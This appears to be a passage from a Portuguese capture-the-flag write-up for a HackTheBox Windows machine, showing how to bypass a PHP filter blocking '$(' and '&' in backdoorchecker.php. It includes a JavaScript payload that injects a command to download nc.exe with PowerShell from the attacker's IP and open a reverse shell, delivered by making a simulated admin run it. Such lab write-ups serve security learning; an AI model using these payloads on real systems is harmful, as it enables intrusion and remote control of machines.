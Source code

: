 ![backdoorchecker.php decoded](Assets\HTB-Windows-Insane-Bankrobber\curl_base64_backdoorchecker_base64-d.png)

Vemos que não podemos utilizar o segunte conjunto:

> $bad = array('$(','&')

Ou seja, o nosso comando não pode incluir "$(" nem "&", caso incluir, será barrado pelo código php. Posto isso:

-   Preparar um nc em escuta

-   Criar um rce.js contendo o seguinte:

```javascript
var request = new XMLHttpRequest()
params =
	'cmd=dir|powershell -c "IWR -Uri http://10.10.14.9/nc.exe -OutFile %temp%\\nc.exe"; %temp%\\nc.exe -e cmd 10.10.14.9 443'
request.open('POST', 'http://localhost/admin/backdoorchecker.php', true)
request.setRequestHeader('content-type', 'application/x-www-form-urlencoded')
request.send(params)
```

-   Obrigar o user "admin" simulado a executar esse javascript:
